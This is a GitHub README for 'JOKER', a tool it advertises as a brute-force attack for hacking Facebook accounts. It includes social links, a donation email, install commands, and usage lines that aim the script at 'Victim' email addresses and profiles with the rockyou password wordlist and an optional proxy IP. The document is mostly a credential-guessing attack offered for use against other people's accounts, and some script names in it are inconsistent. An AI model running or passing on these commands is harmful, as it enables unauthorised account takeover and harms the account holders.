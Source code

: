 ## Find Fikrado on :
[![Github](https://img.shields.io/badge/Github-fikrado-yellow?style=for-the-badge&logo=github)](https://github.com/fikrado)
[![Instagram](https://img.shields.io/badge/IG-%40mr__yahye-red?style=for-the-badge&logo=instagram)](https://www.instagram.com/mr__yahe)
[![Messenger](https://img.shields.io/badge/telegram-blue?style=for-the-badge&logo=telegram)](https://t.me/fikrado_hacker)
[![Facebook](https://img.shields.io/badge/facebook-black?style=for-the-badge&logo=Facebook)](https://facebook.com/fikrado4048063)

# JOKER FACEBOOK BRUTAL FORCE ATTACK

THIS TOOL IS FACEBOOK HACKING WITH BRUTAL FORCE CREATE BY
FIKRADO THE SOMALI HACKERS ORGANIZATION IN EAST AFRICA

# PLEASE DONATE AS :SENT  DONATE IN THIS PAYPAL EMAIL

lioyahya3@gmail.com

## HOW TO INSTALL JOKER BURTAL FORCE
```
apt update

apt install git -y

pkg install python python2 && pip2 install requests mechanize

git clone https://github.com/fikrado/JOKER-burtal-force

cd JOKER-burtal-force

python joker.py

```
### 


## HOW TO USE JOKER BRUTAL FORCE



###

```
      python joker.py -t Victim@gmail.com -w /usr/share/wordlists/rockyou.txt
   
      python joker.py -t 100001013078780 -w C:\\Users\\Me\\Desktop\\wordlist.txt
     
      python jokere.py -t Victim@hotmail.com -w D:\\wordlist.txt -p 144.217.101.245:3129-
      
      python jokery.py -t Victim@gmail.com -s 1234567
     
      python joker.py -g https://www.facebook.com/Victim_Profile
     
```
###

<img src="/itl.cat_joker-wallpaper-4k_3130186.png (1).jpg">
